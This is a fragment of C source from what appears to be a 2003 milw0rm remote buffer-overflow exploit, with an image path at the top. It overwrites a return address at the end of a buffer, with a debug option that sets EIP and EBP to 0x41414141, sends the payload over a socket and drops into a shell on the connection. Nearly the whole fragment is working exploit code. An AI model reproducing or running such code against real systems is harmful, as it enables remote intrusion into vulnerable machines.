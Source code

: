         *(long *)&buffer[(targets[type].bufsize) - 4]  = (targets[type].retaddress - targets[type].offset);

        /* Uncomment to overwrite eip and ebp with 41414141 */
        if(debug == 1) {
        *(long *)&buffer[(targets[type].bufsize) - 8]  = 0x41414141;
        *(long *)&buffer[(targets[type].bufsize) - 4]  = 0x41414141;
        }
      }

      fd = open_socket(port);

      write(fd,buffer,strlen(buffer));
      write(fd,"\n",1);
      write(fd,"\n",1);

      sleep(1);
      sh(fd);

      close(fd);
      return 0;

    }


    // milw0rm.com [2003-04-08]
